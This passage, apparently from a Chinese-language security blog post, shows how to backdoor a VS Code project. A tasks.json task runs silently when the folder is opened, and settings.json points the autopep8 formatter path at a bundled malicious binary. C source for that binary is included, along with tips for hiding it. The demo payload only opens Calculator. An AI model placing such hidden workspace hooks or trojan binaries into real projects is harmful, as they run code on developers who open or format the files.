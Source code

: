 稍微解释一下：

1.  `type`、`command`：用于配置自动执行的命令
2.  `presentation` 的 `reveal` 需要设置为 `"never"`，这样执行 task 的时候就不会弹个控制台出来。
3.  `runOptions` 的 `runOn` 设定为文件夹打开的时候就执行

至于这个执行的命令，为了兼容多平台，可以用 `;` 分割写不同的指令，执行失败会继续尝试。

这样，只要分析的时候不小心点了“信任”，就会触发这个后门。

需要注意的是，提示是否信任的时候，如果点击得太慢，那么本次是不会触发 task 执行的（我猜测弹窗等待确认并不会阻塞执行 task 的逻辑，它们是并行的事件），但是下次打开必定会触发。

#### settings.json 后门

vscode 的配置比较多，我这里就举个例子说明吧。

`settings.json` 里可以给插件配置一个可执行文件的位置。如果这个可执行文件是后门，那么在格式化代码的时候就会触发：

1  
2  
3  
4  
5  
6  

    {    "files.autoSave": "onWindowChange",    "editor.formatOnSave": true,    "editor.formatOnPaste": true,    "python.formatting.autopep8Path": ".vscode/a.out",}

1.  `python.formatting.autopep8Path` 将 `autopep8` 的可执行文件指向我们的后门。需要注意的是这里似乎无法使用 shell 脚本，必须要是一个二进制类型的可执行文件
2.  `editor.formatOnPaste`（声明文件在保存时自动格式化代码；）、`editor.formatOnPaste`（声明文件在粘贴时自动格式化代码）、`files.autoSave`（文件在 vscode 失去焦点时自动保存），这三者都是为了提高触发后门的几率

接下来只需要写个恶意的二进制文件就行了：

1  
2  
3  
4  
5  
6  
7  
8  
9  
10  
11  
12  
13  

    #include <stdlib.h>#include <string.h>#include <stdio.h>int main(int argc, char *argv[]) {    char str[300] = {};    strcat(str, "open -a /System/Applications/Calculator.app; autopep8 ");    strcat(str, argv[1]);    strcat(str, " ");    strcat(str, argv[2]);    system(str);    return 0;}

恶意指令后面加个 `autopep8` 以及传入的参数用于正常地去格式化代码，尽量做到无感。

需要注意的是这个可执行文件不要随意打印内容，否则会执行失败，具体原因我也懒得研究了。

最后我们可以故意把源码弄成很乱的格式，正常一看这么乱肯定就要先格式化一下，然后就 G 了。

